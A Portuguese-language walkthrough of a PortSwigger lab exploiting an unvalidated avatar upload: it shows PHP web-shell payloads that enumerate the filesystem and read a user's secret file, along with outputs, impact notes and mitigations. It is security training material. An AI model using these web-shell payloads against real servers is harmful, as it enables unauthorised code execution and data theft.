








# File Upload — Remote Code Execution via Web Shell

## Contexto

A funcionalidade de upload de avatar não valida o tipo de arquivo enviado. Isso permite fazer upload de um arquivo `.php` que é armazenado e servido pelo servidor como código executável — transformando um upload de imagem em execução remota de código (RCE).

**Lab:** [Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

---

## Análise Inicial

Após login com `wiener:peter`, usei a funcionalidade de upload de avatar para testar se o servidor aceitava arquivos arbitrários. Antes de explorar, precisava saber onde os arquivos eram armazenados.

Criei um arquivo `shell.php` com o payload mais simples possível:

```php
<?php echo getcwd(); ?>
```

Fiz o upload como se fosse uma imagem de perfil. O servidor aceitou sem nenhuma validação. Acessei o arquivo diretamente pela URL:

```
/files/avatars/shell.php
```

A resposta retornou o diretório atual do servidor:

```
/var/www/html/avatars
```



Dois pontos confirmados: o servidor executa PHP nos arquivos enviados, e os arquivos ficam em `/var/www/html/avatars` — acessíveis diretamente pelo browser.

Tentei acessar `/files` diretamente — retornou **403 Forbidden**, mas o Apache se identificou na mensagem de erro: `Apache/2.4.41 (Ubuntu)`. Mais information disclosure.



---

## Exploração — Enumeração do servidor

Com execução de código confirmada, explorei a estrutura do servidor iterativamente, substituindo o payload do `shell.php` a cada etapa.

**Passo 1 — Listar a raiz do sistema:**

```php
<?php print_r(scandir('/')); ?>
```



Resultado: estrutura completa do sistema de arquivos, incluindo `.dockerenv` (confirmando ambiente Docker) e o diretório `/home`.



O `.dockerenv` é um detalhe importante — confirma que o servidor roda dentro de um container. Em pentest real, isso direciona a investigação para escape de container e variáveis de ambiente.

**Passo 2 — Listar /home:**

```php
<?php print_r(scandir('/home')); ?>
```



Retornou os usuários do sistema: `carlos`, `elmer`, `install`, `peter`, `user`.



---

## Exploração — Leitura do arquivo secreto

Com o caminho mapeado, o payload final leu o conteúdo de `/home/carlos/secret` diretamente:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```



A chave foi retornada: `dAvaTfE7htoH5tPdsAnK3UwAUFkIzIfH`



---

## Cadeia de exploração completa

```
upload shell.php → arquivo executado pelo servidor
getcwd()                          → /var/www/html/avatars
scandir('/')                      → encontrou /home
scandir('/home')                  → encontrou carlos
file_get_contents('/home/carlos/secret') → dAvaTfE7htoH5tPdsAnK3UwAUFkIzIfH
```

Cada payload substituía o anterior no mesmo arquivo — uma web shell interativa improvisada.

---

## Impacto

Com execução arbitrária de PHP no servidor, as possibilidades vão muito além de ler um arquivo. Um atacante real poderia executar comandos do sistema com `system()` ou `shell_exec()`, estabelecer reverse shells, ler variáveis de ambiente (credenciais de banco, chaves de API), mover-se lateralmente dentro da rede interna ou usar o servidor como pivot para outros sistemas. RCE via file upload é uma das vulnerabilidades de maior severidade em aplicações web.

---

## Mitigação

Validar o tipo real do arquivo no servidor — não apenas a extensão ou o Content-Type declarado pelo cliente (ambos são trivialmente falsificáveis). Armazenar uploads fora do document root para que nunca sejam servidos como código executável. Renomear arquivos no upload para nomes sem extensão controlada pelo usuário. Configurar o servidor web para nunca executar arquivos no diretório de uploads.

---

## Aprendizados

- A ausência de validação de upload é um vetor de RCE direto — não precisa de injeção sofisticada, basta o servidor executar o arquivo enviado.
- A enumeração iterativa (`getcwd` → `scandir('/')` → `scandir('/home')` → `file_get_contents`) é a metodologia correta: cada resposta define o próximo payload.
- `.dockerenv` na raiz do sistema é um indicador de ambiente containerizado — relevante para escalação e movimentação lateral em pentest real.
- Information disclosure acidental (403 revelando versão do Apache) aparece em múltiplos labs — sempre inspecionar mensagens de erro, mesmo as que parecem irrelevantes.
